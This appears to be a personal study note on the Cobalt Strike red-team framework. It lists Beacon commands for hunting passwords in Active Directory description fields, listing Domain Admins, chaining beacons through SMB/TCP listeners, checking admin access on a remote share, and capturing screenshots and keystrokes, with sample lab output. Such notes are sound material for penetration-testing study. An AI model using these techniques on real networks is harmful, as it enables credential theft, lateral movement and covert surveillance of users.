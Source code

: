```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[CobaltStrike]]  
___

## Description:  



### Useful BOFs

[Situational Awareness BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF)

Can use this to look for passwords in descriptions fields 

`ldapsearch (&(objectClass=User)(objectCategory=Person)) name,samaccountname,description

or find domain admins

`netGroupListMembers "Domain Admins" domainname.local`




### Peer-to-Peer Listeners
Allows one beacon to talk to another beacon without having to directly talk to the team server.


Go to Listeners, add, choose payload to be either beacon SMB or beacon TCP.

Generate payload for that listener, execute on second target. 

Use `link` and `connect` commands on first target to connect.

`connect <first_target_ip> 4444`



### Test Local Admin access

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\srv-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:43:16   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     05/14/2021 15:29:09   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/25/2021 13:12:18   inetpub
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/14/2021 15:25:37   Program Files
          dir     05/14/2021 15:15:23   Program Files (x86)

```



### Screenshots

^563c93

Taking screenshots of the user’s desktop can be useful just to see what they are doing. It can show what systems or applications they're using, what shortcuts they have, what documents they’re working on and so on.

```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop

```


### KeyLogger

^00b23d

A keylogger can capture the keystrokes of a user, which is especially useful for capturing usernames, passwords and other sensitive data.
`Keylogger`

All keystrokes can be seen at **View > Keystrokes**.


The keylogger runs as a job that can be stopped with the `jobkill` command.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1

```






___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (07:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
